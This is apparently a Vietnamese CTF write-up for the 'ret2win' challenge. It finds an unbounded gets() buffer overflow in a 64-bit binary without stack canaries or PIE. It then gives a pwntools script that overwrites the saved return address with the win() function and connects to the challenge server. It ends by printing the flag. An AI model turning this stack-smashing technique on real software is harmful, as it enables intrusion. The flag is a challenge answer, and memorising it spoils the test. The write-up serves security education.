







# kcscctf.site - ret2win

Link challenge (Sẽ đóng vào 31/1/2022): http://kcscctf.site/challenges

Bạn cũng có thể tại challenge tại đây: [ret2win.zip](ret2win.zip)

File zip sẽ bao gồm 1 file:
- ret2win

Và chúng ta bắt đầu nào!

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8d452b45746f40766befca7259dde9a5db08445c, for GNU/Linux 3.2.0, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file trong ghidra. Ở đây chỉ có 2 hàm thú vị:

Hàm vuln()



Và hàm win()



Ở hàm vuln() dòng 9 là lệnh gets() không giới hạn --> **Buffer Overflow**

# 2. Ý tưởng

Như tên đề bài là return to win. Vậy ta chỉ việc overwrite saved rip ở trong vuln thành địa chỉ hàm win.

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:







Do rip chưa pop giá trị từ stack lên nên ta kiểm tra thông qua rsp (rsp đang chứa saved rip).

Vậy ta chỉ việc tạo script để ghi đè saved rip thành địa chỉ hàm win() là xong:



Full code:
```
from pwn import *

# p = process('./ret2win')
p = connect('45.77.39.59', 10005)

payload = b'A'*40 				# Pad to rip
payload += p64(0x00000000004011f6)		# win() function

p.recvuntil(b'> ')
p.sendline(payload)

p.interactive()
```

# 4. Lấy flag



Vậy flag là `KCSC{592fc879-c2eb-45b7-bf15-2725f2a86338}`

